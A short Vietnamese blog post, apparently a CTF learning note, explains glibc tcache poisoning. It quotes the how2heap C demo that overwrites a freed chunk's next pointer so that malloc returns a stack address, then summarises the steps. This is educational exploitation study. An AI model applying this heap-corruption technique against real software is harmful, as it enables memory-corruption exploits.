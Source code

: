 ```yaml
---
layout : post 
title : Tcache Poision 
---  
```


Trong bài wu [Nu1CTF warmup](https://hacmao.pw/2019-09-10-Nu1CTF/) có dùng rất nhiều kĩ thuật này. Nhưng mình lúc đó chưa đọc được blog này nên cũng chưa hiểu rõ lắm mà chỉ đoán già đoán non. Ok giờ tổng hợp lại nè  😜😜😜.  

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

int main()
{
	fprintf(stderr, "This file demonstrates a simple tcache poisoning attack by tricking malloc into\n"
	       "returning a pointer to an arbitrary location (in this case, the stack).\n"
	       "The attack is very similar to fastbin corruption attack.\n\n");

	size_t stack_var;
	fprintf(stderr, "The address we want malloc() to return is %p.\n", (char *)&stack_var);

	fprintf(stderr, "Allocating 1 buffer.\n");
	intptr_t *a = malloc(128);
	fprintf(stderr, "malloc(128): %p\n", a);
	fprintf(stderr, "Freeing the buffer...\n");
	free(a);

	fprintf(stderr, "Now the tcache list has [ %p ].\n", a);
	fprintf(stderr, "We overwrite the first %lu bytes (fd/next pointer) of the data at %p\n"
		"to point to the location to control (%p).\n", sizeof(intptr_t), a, &stack_var);
	a[0] = (intptr_t)&stack_var;

	fprintf(stderr, "1st malloc(128): %p\n", malloc(128));
	fprintf(stderr, "Now the tcache list has [ %p ].\n", &stack_var);

	intptr_t *b = malloc(128);
	fprintf(stderr, "2nd malloc(128): %p\n", b);
	fprintf(stderr, "We got the control\n");

	return 0;
}
```  
Code chôm từ how2heap nhé :v  
Tức là cách để tận dụng tcache poision tiến hành theo các bước sau :  
```
  1 - Malloc then free chunk A 
  2 - Fix FD of chunk A to our target address  
  3 - Malloc 2 time to dup into target  
```
Khá là giống ```fastbin dupinto stack``` nhưng dễ thực hiện hơn nhiều. 
